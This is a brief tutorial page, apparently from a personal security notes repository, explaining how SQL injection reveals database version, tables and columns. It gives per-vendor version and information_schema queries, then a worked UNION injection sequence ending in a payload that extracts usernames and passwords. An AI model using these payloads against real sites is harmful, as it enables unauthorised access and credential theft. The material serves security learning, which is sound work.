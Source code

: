 # Examin Database with SQL injection attacks

With SQL injection you can guess information about the database:

- The type and version of the database software.
- The tables and columns that the database contains.

### Table of content

- [Version](#version)
- [Content of the database]()

## Version

Database | Type | Query
--- | --- | ---
Microsoft, MySQL | `SELECT @@version`
Oracle | `SELECT * FROM v$version`
PostgreSQL | `SELECT version()`

For example, you could use a UNION attack with the following input:

`' UNION SELECT @@version--`

## Content of the database

Most database types (except Oracle) have a set of views called the information schema. This provides information about the database.

:warning: database contents aren't call with the same Queries:

```sql
-- Oracle
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

-- Mircosof
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

-- PostgreSQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

-- MySQL
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

```sql
SELECT * FROM information_schema.tables
```

This returns output like the following:

```sql
TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE
=====================================================
MyDatabase     dbo           Products    BASE TABLE
MyDatabase     dbo           Users       BASE TABLE
MyDatabase     dbo           Feedback    BASE TABLE
```

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

```sql
This returns output like the following:

TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE
=================================================================
MyDatabase     dbo           Users       UserId       int
MyDatabase     dbo           Users       Username     varchar
MyDatabase     dbo           Users       Password     varchar
```

Exemple:

```sql
' UNION SELECT 'a', 'a' -- return -> 200 OK
' UNION SELECT table_name, NULL FROM information_schema.tables--
```

Found users_abcdef table interting:

```sql
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_abcdef'--
```

Found column username_abcdef, password_abcdef

```sql
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

---

[**:arrow_right_hook: Back home**](/README.md)
